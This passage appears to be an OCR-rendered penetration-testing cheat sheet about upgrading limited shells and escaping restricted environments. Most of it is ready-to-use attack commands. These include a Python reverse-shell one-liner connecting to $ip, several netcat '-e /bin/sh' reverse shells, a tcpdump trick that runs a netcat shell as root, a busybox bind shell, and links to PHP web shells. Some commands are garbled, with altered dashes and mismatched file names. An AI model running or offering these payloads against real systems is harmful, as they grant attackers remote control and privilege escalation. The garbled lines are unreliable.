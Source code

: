     `nc -nlvp 4444`

-   Spawning a TTY Shell - Break out of Jail or limited shell
         You should almost always upgrade your shell after taking control of an apache or www user.

        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )

        (hint: sudo -l to see what you can run)

     -   You may encounter limited shells that use rbash and only allow you to execute a single command per session.
         You can overcome this by executing an SSH shell to your localhost:

               ssh user@$ip nc $localip 4444 -e /bin/sh
               enter user's password
               python -c 'import pty; pty.spawn("/bin/sh")'
               export TERM=linux

      `python -c 'import pty; pty.spawn("/bin/sh")'`

               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

      `echo os.system('/bin/bash')`

      `/bin/sh -i`

      `perl —e 'exec "/bin/sh";'`

      perl: `exec "/bin/sh";`

      ruby: `exec "/bin/sh"`

      lua: `os.execute('/bin/sh')`

      From within IRB: `exec "/bin/sh"`


      From within vi: `:!bash`
     or

      `:set shell=/bin/bash:shell`

      From within vim `':!bash':`

      From within nmap: `!sh`

      From within tcpdump

         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

      From busybox  `/bin/busybox telnetd -|/bin/sh -p9999`

-   Pen test monkey PHP reverse shell
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)
